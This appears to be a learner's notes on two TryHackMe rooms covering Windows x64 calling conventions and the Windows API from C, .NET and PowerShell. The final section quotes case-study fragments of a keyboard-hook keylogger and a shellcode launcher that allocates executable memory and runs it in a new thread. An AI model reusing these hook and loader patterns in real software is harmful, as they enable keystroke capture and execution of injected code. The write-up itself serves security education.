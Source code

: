 # Winassembly

**https://tryhackme.com/r/room/win64assembly**

A fairly rudimentary room. The first few modules are just simple learning of number systems, registers, and the like.

We're then introducted to more advanced concepts such as assembly instructions, compare flags, and calling conventions.

The last one I found most insightful, I finally understood what the `__fastcall` paramter meant in function definitions arising from Windows decompilation— its the Windows calling convention. A few more details of it are given below

- The first four non-floating-point parameters are passed left-to-right in registers `rcx`, `rdx`, `r8` and `r9` respectively.
- The first four floating-point parameters are passed in registers `xmm0` to `xmm3`.
- Any more than four parameters and they are pushed to the stack from right to left.
- A function's return value is passed to `rax` if it's a non-floating-point or `xmm0` if it's a float or double.

We also learn a bit about a different calling convention, `cdecl`.

The final module teaches us about the stack and the functioning of stack-frames on function calls.

# Win API

**https://tryhackme.com/r/room/windowsapi**

In this room we learn about the intricacies and working of the Windows API.

We start with a basic introduction to kernel modes and the components of the API.

After that, we dive deeper into the API and understand how ASLR is overcome through the Windows header file and P/Invoke.

Then we learn about the API calling structure and its function call naming scheme, which is as follows:

- **A:** Represents an 8-bit character set with ANSI encoding
- **W:** Represents a Unicode encoding
- **Ex:** Provides extended functionality or in/out parameters to the API call

After that we learn about the C/C++ implementation of the API and expand on the `<Windows.h>` header file's functionality through an example program for creating a pop-up window.

```c
HWND CreateWindowExA(
  [in]           DWORD     dwExStyle, // Optional windows styles
  [in, optional] LPCSTR    lpClassName, // Windows class
  [in, optional] LPCSTR    lpWindowName, // Windows text
  [in]           DWORD     dwStyle, // Windows style
  [in]           int       X, // X position
  [in]           int       Y, // Y position
  [in]           int       nWidth, // Width size
  [in]           int       nHeight, // Height size
  [in, optional] HWND      hWndParent, // Parent windows
  [in, optional] HMENU     hMenu, // Menu
  [in, optional] HINSTANCE hInstance, // Instance handle
  [in, optional] LPVOID    lpParam // Additional application data
);
```

implementation:

```c
#include <Windows.h>

HWND hwnd = CreateWindowsEx(
    0,
    CLASS_NAME,
    L"Hello THM!",
    WS_OVERLAPPEDWINDOW,
    CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT,
    NULL,
    NULL,
    hInstance,
    NULL
);
```

After, we learn about the API's implementation in .NET and PowerShell. Since there's no `Windows.h`, we use `DLLImport` instead with the exact API call we're looking for.

The PowerShell implementation is nearly identical except it uses methods instead of classes. We also need to create a type for each DLL pointer we import, which is then compiled using the C# compiler.

We use an example program here that prints the details of the user's PC.

**.NET:**

```java
class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetComputerNameA(StringBuilder lpBuffer, ref uint lpnSize);
}

static void Main(string[] args) {
    bool success;
    StringBuilder name = new StringBuilder(260);
    uint size = 260;
    success = GetComputerNameA(name, ref size);
    Console.WriteLine(name.ToString());
}
```

**PowerShell:**

```powershell
$MethodDefinition = @"
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
"@;
```

```powershell
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
```

```powershell
[Win32.Kernel32]::<Imported Call>()
```

We now learn about the security features and vulnerabilities behind certain API calls, and how they can be abused. This concludes with a case study on two malwares, a keylogger and a shellcode launcher.

**keylogger:**

```java
public static void Main() {
    _hookID = SetHook(_proc);
    Application.Run();
    UnhookWindowsHookEx(_hookID);
    Application.Exit();
}
private static IntPtr SetHook(LowLevelKeyboardProc proc) {
    using (Process curProcess = Process.GetCurrentProcess()) {
        return SetWindowsHookEx(WHKEYBOARDLL, proc, GetModuleHandle(curProcess.ProcessName), 0);
    }
}
```

**Shellcode:**

```java
UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;
hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
return;
```

